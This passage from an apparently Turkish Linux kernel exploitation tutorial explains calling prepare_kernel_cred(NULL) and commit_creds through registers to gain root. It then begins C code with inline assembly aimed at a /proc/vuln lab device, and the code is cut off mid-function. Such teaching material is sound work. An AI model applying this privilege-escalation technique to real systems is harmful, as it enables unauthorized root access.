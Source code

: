 ![](../assets/registers.png)

Burda görebileceğiniz gibi `prepare_kernel_cred` cred'e NULL parametresini `rdi` registerı aracılığı 
ile geçeceğiz, ardından `prepare_kernel_cred`in dönüş değerini `rax`dan okuyup yine `commit_creds`e 
`rdi` aracılığı ile vereceğiz.

O halde koda geçelim:
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>

#define DEVICE      "/proc/vuln"

void root(void){
  __asm__(
    ".intel_syntax noprefix;"
    
    // prepare_kernel_cred'in adresini önceki gibi rax'a taşıyoruz
    "movabs rax, 0xffffffff81094a50;"
    
    // rdi register'ını 0 yani NULL olarak ayarlıyoruz
    // bu prepare_kernel_cred'in ilk parametresi
    "mov rdi, 0;"
  
```